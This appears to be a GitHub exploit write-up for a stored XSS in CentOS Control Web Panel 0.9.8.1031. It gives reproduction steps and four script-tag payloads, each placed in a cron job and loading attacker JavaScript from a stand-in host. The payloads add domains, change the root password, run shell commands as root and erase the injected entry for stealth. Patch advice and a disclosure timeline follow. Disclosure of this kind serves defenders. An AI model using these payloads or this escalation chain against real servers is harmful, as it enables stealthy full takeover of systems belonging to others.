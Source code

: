 Exploiting an XSS vulnerability in the CWP control panel and escalating the attack to change the root password...

# Information

```
# Exploit Title       : CWP (CentOS Control Web Panel) Version 0.9.8.1031 - XSS to full root takeover
# Date                : 7 january 2021
# Exploit Author      : Chokri B.A.
# Vendor Homepage     : https://control-webpanel.com/
# Software Link       : http://centos-webpanel.com/demo/
# Version             : 0.9.8.1031
# Tested on           : CentOS 7 / CentOS 6
# CVE                 : #
```

# Description
A simple user can add/delete/modify any option on behalf of the root user, and even change the root's password via a stored XSS vulnerability.

#  Steps to Reproduce
1. Login into the CentOS Web Panel using user credential
2. Create a new cron job using your prefered XSS payload.
3. Login as root and navigate to the list of cronjobs
4. the XSS payload will get executed.

#  Escalating
I've created 2 examples on how you can escalate this attack to take control of the full server.

1. <b>PayloadAddDomain.js</b> : add this code as your cronjob, when the root user list the cronjobs, a new domain name will be added under the choosen user.
``` 
<script type="text/javascript" src="https://yourevilwebsite.tld/PayloadAddDomain.js"></script>
```


2. <b>PayloadChangeRootPass.js</b> add this code as your cronjob, when the root user list the cronjobs, you will be able to change to root's password and take control of the full server.
``` 
<script type="text/javascript" src="https://yourevilwebsite.tld/PayloadChangeRootPass.js"></script>
```

3. <b>PayloadExecCmd.js</b> add this code as your cronjob, when the root user list the cronjobs, you will be able to execute any shell command as the root user, you can create a new user with root privileges for examples ;)
``` 
<script type="text/javascript" src="https://yourevilwebsite.tld/PayloadExecCmd.js"></script>
```
4. <b>PayloadRemoveCron.js</b> add this code as your cronjob, when the root user list the cronjobs, the malicious code will be removed automatically from the cronjob's list. you can conbine this code wity any of the other codes to execute whatever you want and delete the XSS payload to be more stealthy.
``` 
<script type="text/javascript" src="https://yourevilwebsite.tld/PayloadRemoveCron.js"></script>
```

5. You can perform any action you want as the root user. The only limit is your imagination....

#  Solution - Fix & Patch
The vulnerability can be patched by a secure parse and encode of the vulnerable input fields.
Disallow usage of special chars and restrict the parameter input to prevent application-side script code injection attacks.
Filter in the output error or the item listing the vulnerable location were the code executes.


#  Timeline

```
2021-01-07: Discovered the bug
2021-01-08: Reported to vendor
2021-01-13: Vender accepted the vulnerability
2021-02-10: The vulnerability has been fixed
2021-02-13: Published
```

#  Demo
[![Video Demo](https://img.youtube.com/vi/5i30nfXxEc0/0.jpg)](https://www.youtube.com/watch?v=5i30nfXxEc0)
